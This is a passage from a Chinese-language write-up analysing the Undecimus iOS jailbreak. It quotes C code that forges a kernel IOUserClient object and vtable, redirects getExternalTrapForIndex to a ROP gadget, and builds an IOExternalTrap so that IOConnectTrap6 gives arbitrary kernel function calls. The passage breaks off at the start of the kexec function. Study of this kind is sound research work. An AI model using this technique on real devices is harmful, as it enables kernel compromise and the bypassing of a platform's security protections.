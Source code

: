 ```c
    fake_vtable = kmem_alloc(fake_kalloc_size);
    if (!KERN_POINTER_VALID(fake_vtable)) return false;

    for (int i = 0; i < 0x200; i++) {
        WriteKernel64(fake_vtable + i * 8, ReadKernel64(IOSurfaceRootUserClient_vtab + i * 8));
    }

    // Create the fake user client
    // 6. 构造一个 IOUserClient 对象，并拷贝内核中 IOUserClient 的内容到构造的对象
    fake_client = kmem_alloc(fake_kalloc_size);
    if (!KERN_POINTER_VALID(fake_client)) return false;

    for (int i = 0; i < 0x200; i++) {
        WriteKernel64(fake_client + i * 8, ReadKernel64(IOSurfaceRootUserClient_addr + i * 8));
    }

    // Write our fake vtable into the fake user client
    // 7. 将构造的虚函数表写入构造的 IOUserClient 对象
    WriteKernel64(fake_client, fake_vtable);

    // Replace the user client with ours
    // 8. 将构造的 IOUserClient 对象写回 IOUserClient 对应的 ipc_port
    WriteKernel64(IOSurfaceRootUserClient_port + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT), fake_client);

    // Now the userclient port we have will look into our fake user client rather than the old one

    // Replace IOUserClient::getExternalTrapForIndex with our ROP gadget (add x0, x0, #0x40; ret;)
    // 9. 将特定指令区域的地址写入到虚函数表的第 183 个 Entity
    // 它对应的是 getExternalTrapForIndex 的地址
    WriteKernel64(fake_vtable + 8 * 0xB7, getoffset(add_x0_x0_0x40_ret));

#endif
    pthread_mutex_init(&kexec_lock, NULL);
    return true;
}
```

此时我们已经修改了构造的 userClient 的 `getExternalTrapForIndex` 逻辑，接下来只需要对 userClient 调用 IOConnectTrap6 即可实现 ROP 攻击，剩下的一个关键步骤是准备 IOTrap 作为 ROP Gadget 的返回值。

## 构造 IOTrap
由于 `getExternalTrapForIndex` 被指向了如下指令：
```arm
add x0, x0, #0x40
ret
```

我们需要在 userClient + 0x40 处构造一个 IOTrap：
```c
struct IOExternalTrap {
    IOService *		object;
    IOTrap		func;
};
```
根据前面的讨论，object 应当被赋予被调用函数的第 0 个参数地址，func 应当赋予被调用函数的地址，然后再将函数的第 1 ~ 6 个参数通过 IOConnectTrap 的 args 传入。下面我们来看 Undecimus 中 kexec 的具体实现，笔者在其中补充了一些注释：
```c
kptr_t kexec(kptr_t ptr, kptr_t x0, kptr_t x1, kptr_t x2, kptr_t x3, kptr_t x4, kptr_t x5, kptr_t x6)
{
    kptr_t returnval = 0;
    pthread_mutex_lock(&kexec_lock);
#if __arm64e__
```